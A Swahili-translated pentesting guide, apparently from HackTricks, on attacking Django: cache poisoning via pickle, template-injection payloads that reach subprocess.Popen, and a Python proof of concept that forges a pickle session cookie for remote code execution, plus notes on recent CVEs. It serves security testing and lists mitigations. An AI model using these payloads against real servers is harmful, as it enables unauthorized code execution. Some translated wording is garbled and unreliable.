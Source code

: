 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Njia ya kuhifadhi cache ya Django ya kawaida ni [Python pickles](https://docs.python.org/3/library/pickle.html), ambayo inaweza kusababisha RCE ikiwa [ingizo lisiloaminika limeondolewa](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Ikiwa mshambuliaji anaweza kupata ufikiaji wa kuandika kwenye cache, wanaweza kupeleka udhaifu huu hadi RCE kwenye seva ya msingi**.

Cache ya Django inahifadhiwa katika moja ya maeneo manne: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [kumbukumbu](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [faili](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), au [hifadhidata](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Cache iliyohifadhiwa kwenye seva ya Redis au hifadhidata ndiyo njia za shambulio zinazoweza kutokea (Redis injection na SQL injection), lakini mshambuliaji pia anaweza kutumia cache ya msingi wa faili kubadilisha kuandika kwa njia isiyo ya kawaida kuwa RCE. Wajibu wameashiria hili kama si tatizo. Ni muhimu kutambua kwamba folda ya faili la cache, jina la meza ya SQL, na maelezo ya seva ya Redis yatatofautiana kulingana na utekelezaji.

Ripoti hii ya HackerOne inatoa mfano mzuri, unaoweza kurudiwa wa kutumia cache ya Django iliyohifadhiwa kwenye hifadhidata ya SQLite: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Lugha ya Kigezo ya Django (DTL) ni **Turing-complete**. Ikiwa data iliyotolewa na mtumiaji inatolewa kama *kigezo cha mfuatano* (kwa mfano kwa kuita `Template(user_input).render()` au wakati `|safe`/`format_html()` inatoa kuondoa kiotomatiki), mshambuliaji anaweza kufikia SSTI kamili → RCE.

### Detection
1. Tafuta simu za moja kwa moja kwa `Template()` / `Engine.from_string()` / `render_to_string()` ambazo zinajumuisha *data yoyote* ya ombi isiyo salama.
2. Tuma mzigo wa muda au wa hesabu:
```django
{{7*7}}
```
Ikiwa matokeo yaliyotolewa yana `49` ingizo linakusanywa na injini ya kigezo.

### Primitive to RCE
Django inazuia ufikiaji wa moja kwa moja kwa `__import__`, lakini grafu ya kitu cha Python inapatikana:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Pata index ya `subprocess.Popen` (≈400–500 kulingana na ujenzi wa Python) na tekeleza amri za kiholela:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
A safer universal gadget ni kurudia hadi `cls.__name__ == 'Popen'`.

Gadget hiyo hiyo inafanya kazi kwa **Debug Toolbar** au **Django-CMS** vipengele vya uwasilishaji wa templeti ambavyo vinashughulikia pembejeo za mtumiaji vibaya.

---

## Pickle-Backed Session Cookie RCE
Ikiwa mipangilio `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` imewezeshwa (au serializer maalum inayofanya deserialization ya pickle), Django *inafichua na kuondoa pickle* kwenye cookie ya kikao **kabla** ya kuita msimbo wowote wa mtazamo. Hivyo basi, kuwa na funguo halali ya kusaini (mipangilio `SECRET_KEY` ya mradi kwa kawaida) inatosha kwa utekelezaji wa msimbo wa mbali mara moja.

### Mahitaji ya Kutekeleza
* Server inatumia `PickleSerializer`.
* Mshambuliaji anajua / anaweza kudhani `settings.SECRET_KEY` (kuvuja kupitia GitHub, `.env`, kurasa za makosa, nk.).

### Ushahidi wa Dhihirisho
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Tuma cookie inayofuata, na payload inafanya kazi kwa ruhusa za mfanyakazi wa WSGI.

**Mikakati ya Kuzuia**: Hifadhi `JSONSerializer` ya chaguo-msingi, badilisha `SECRET_KEY`, na sanidi `SESSION_COOKIE_HTTPONLY`.

---

## CVEs za Juu za Django za Karibuni (2023-2025) Ambazo Pentesters Wanapaswa Kuangalia
* **CVE-2025-48432** – *Kuingiza Kumbukumbu kupitia `request.path` isiyo na kuepukwa* (imefanyiwa marekebisho Juni 4 2025). Inawawezesha washambuliaji kusafirisha mistari mipya/kanuni za ANSI kwenye faili za kumbukumbu na kuharibu uchambuzi wa kumbukumbu wa chini. Kiwango cha patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kuingiza Kumbukumbu ya SQL ya Kihistoria* katika `QuerySet.values()/values_list()` kwenye `JSONField` (CVSS 9.8). Tengeneza funguo za JSON kuvunja kutoka kwa kunukuu na kutekeleza SQL isiyo ya kawaida. Imefanyiwa marekebisho katika 4.2.15 / 5.0.8.

Daima tambua toleo halisi la mfumo kupitia ukurasa wa makosa wa `X-Frame-Options` au hash ya `/static/admin/css/base.css` na jaribu yaliyo hapo juu inapofaa.

---

## Marejeleo
* Toleo la usalama la Django – "Django 5.2.2, 5.1.10, 4.2.22 anashughulikia CVE-2025-48432" – 4 Jun 2025.
* OP-Innovate: "Django inatoa masasisho ya usalama kushughulikia kasoro ya kuingiza SQL CVE-2024-42005" – 11 Aug 2024.

{{#include ../../banners/hacktricks-training.md}}
